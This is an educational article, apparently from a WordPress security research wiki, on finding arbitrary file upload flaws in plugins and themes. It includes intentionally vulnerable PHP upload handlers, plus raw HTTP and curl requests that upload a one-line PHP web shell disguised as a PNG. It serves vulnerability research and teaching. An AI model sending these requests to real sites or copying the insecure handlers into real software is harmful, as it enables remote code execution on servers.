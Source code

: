 ```yaml
---
title: Arbitrary File Upload
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
    - [`move_uploaded_file`](https://www.php.net/manual/en/function.move-uploaded-file.php)
    - [`file_put_contents`](https://www.php.net/manual/en/function.file-put-contents)
    - [`fwrite`](https://www.php.net/manual/en/function.fwrite)
    - [`fputs`](https://www.php.net/manual/en/function.fputs.php)
    - [`copy`](https://www.php.net/manual/en/function.copy.php)
    - [`fputcsv`](https://www.php.net/manual/en/function.fputcsv.php)
    - [`rename`](https://www.php.net/manual/en/function.rename.php)
- WordPress related
    - [`WP_Filesystem_Direct::put_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
    - [`WP_Filesystem_Direct::move`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
    - [`WP_Filesystem_Direct::copy`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user can control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
    $file = $_FILES["file"];
    $ext = end(explode('.',$file["name"]));

    if($ext !== "zip"){
        die();
    }
    
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    move_uploaded_file($file["tmp_name"], $file_path);

    $zip = new ZipArchive;
    $f = $zip->open($file_path);

    if($f){
        $zip->extractTo(WP_CONTENT_DIR . "/uploads/");
        $zip->close();
    }
}
``` 

To bypass the above check we need to prepare a valid zip file and add a malicious PHP file inside the zip file. Below is the example of a raw HTTP and cURL request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Cookie: <AUTHENTICATED_USER_COOKIE>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

unpack_fonts
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

OR

```bash
curl -F 'file=@pwn.zip' 'http://localhost/wp-admin/admin-ajax.php?action=unpack_fonts' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [`mime_content_type`](https://www.php.net/manual/en/function.mime-content-type.php)
- [`exif_imagetype`](https://www.php.net/manual/en/function.exif-imagetype.php)
- [`finfo_file`](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
    $file = $_FILES["file"];
    $file_type = mime_content_type($file["tmp_name"]);
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    $allowed_mime_type = array("image/png", "image/jpeg");

    if(in_array($file_type, $allowed_mime_type)){
        move_uploaded_file($file["tmp_name"], $file_path);
        echo "file uploaded";
    }
    else{
        echo "file mime type not accepted";
    }
}
```

To bypass the above check we need to prepare a valid PNG file and append a malicious PHP code to the PNG file metadata then rename the file with php extension. Below is the example of a raw HTTP and cURL request to trigger the Arbitrary File Upload:


```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

upload_image_check_mime
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

OR

```bash
curl -F 'file=@pwn.php' 'http://localhost/wp-admin/admin-ajax.php?action=upload_image_check_mime'
```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
    $file = $_FILES["file"];
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    $size = getimagesize($file["tmp_name"]);
    $fileContent = file_get_contents($_FILES['file']["tmp_name"]);

    if($size){
        file_put_contents($file_path, $fileContent);
        echo "image uploaded";
    }
    else{
        echo "invalid image size";
    }
}
```

To bypass the above check we need to prepare a valid image file and append a malicious PHP code to the image file metadata then rename the file with php extension. Below is the example of a raw HTTP and cURL request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

upload_image_getimagesize
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

OR

```bash
curl -F 'file=@pwn.php' 'http://localhost/wp-admin/admin-ajax.php?action=upload_image_getimagesize'
```

## Article References


Below are some of the findings related to Arbitrary File Upload:

- [AI Engine Plugin Affected by Critical Vulnerability](https://patchstack.com/articles/ai-engine-plugin-affected-by-critical-vulnerability/)
- [Multiple Vulnerabilities Patched in Themify Ultra Theme](https://patchstack.com/articles/multiple-vulnerabilities-patched-in-themify-ultra-theme/)
- [Critical Vulnerability in Elementor Affecting 5+ Million Websites](https://patchstack.com/articles/critical-vulnerability-in-elementor-affecting-5-million-websites/)
- [Pre-Auth Arbitrary File Upload in User Submitted Posts Plugin](https://patchstack.com/articles/pre-auth-arbitrary-file-upload-in-user-submitted-posts-plugin/)
- [Critical Arbitrary File Upload Patched in Forminator Plugin](https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Vulnerabilities Patched in Jupiter X Core Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-jupiter-x-core-plugin/#unauthenticated-arbitrary-file-upload)